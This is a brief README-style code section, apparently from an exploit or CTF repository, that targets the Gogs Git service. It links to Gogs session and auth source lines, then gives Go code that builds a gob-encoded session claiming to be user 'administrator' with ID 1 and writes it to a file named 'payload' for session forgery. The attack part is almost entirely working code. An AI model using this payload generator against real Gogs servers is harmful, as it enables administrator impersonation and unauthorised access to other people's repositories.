 ## CODE EXAMPLES

### CLI
- `go run file.go`


### ENCRYPT SESSION
- Based on the source code of **Gogs**
  - [Session/utils.go](https://github.com/gogs/gogs/blob/be6bb5314ee7d8ed53362d8e6893b061e5210f48/vendor/github.com/go-macaron/session/utils.go#L38-L45) 
  - [models/user.go](https://github.com/gogs/gogs/blob/be6bb5314ee7d8ed53362d8e6893b061e5210f48/models/user.go#L50-L52)
  - [routes/user/auth.go](https://github.com/gogs/gogs/blob/be6bb5314ee7d8ed53362d8e6893b061e5210f48/routes/user/auth.go#L127-L128)
- user name: administrator
- user ID: 1
```
package main

import (
  "bytes"
  "encoding/gob"
  "io/ioutil"
  "fmt"
)  

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
  for _, v := range obj {
    gob.Register(v)
  }
  buf := bytes.NewBuffer(nil)
  err := gob.NewEncoder(buf).Encode(obj)
  return buf.Bytes(), err
}


func main() {
  var data []byte
  var kv = make(map[interface{}]interface{})
  kv["uname"]= "administrator"
  kv["uid"]= int64(1)
  fmt.Println(kv) 

  data, err := EncodeGob(kv);
  if err !=nil { 
    fmt.Println(err)
  }
  ioutil.WriteFile("payload", data, 0644)

}
```
